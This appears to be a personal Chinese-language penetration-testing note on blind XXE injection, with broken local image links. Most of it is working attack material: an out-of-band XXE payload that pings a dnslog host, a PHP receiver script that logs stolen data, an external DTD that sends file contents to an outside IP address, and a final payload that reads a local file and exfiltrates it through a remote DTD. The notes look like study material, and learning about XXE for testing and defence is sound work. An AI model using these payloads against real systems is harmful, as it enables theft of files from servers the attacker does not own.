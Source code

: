 ![image-20240512135432984](D:\Infiltration\笔记\note\图片\image-20240512135432984.png)





##### 无回显

###### 带外测试

我搭建的服务器不知道怎么回事，一直返回500的错误，但是dnslog显示已经访问

```
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://gtegti.dnslog.cn">
    %file;
]>
<user><username>&send;</username><password>xiaodi</password></user>
```



![image-20240512130922957](D:\Infiltration\笔记\note\图片\image-20240512130922957.png)

dnslog访问成功

![image-20240512130847595](D:\Infiltration\笔记\note\图片\image-20240512130847595.png)

###### 无回显读文件



将get.php放入到服务器，

```
<?php
$data=$_GET['file']; 
$myfile = fopen("file.txt", "w+");
fwrite($myfile, $data);
fclose($myfile);
?>
```

将test.dtd放入服务器

```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://47.94.236.117/get.php?file=%file;'>">
```

开启php服务

```
php -S 0.0.0.0:5566
```

![image-20240512141835809](D:\Infiltration\笔记\note\图片\image-20240512141835809.png)



```
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///d:/123.txt">
<!ENTITY % remote SYSTEM "http://x.x.x.x:5566/test.dtd">
%remote;
%all;
]>
<root>&send;</root>
```
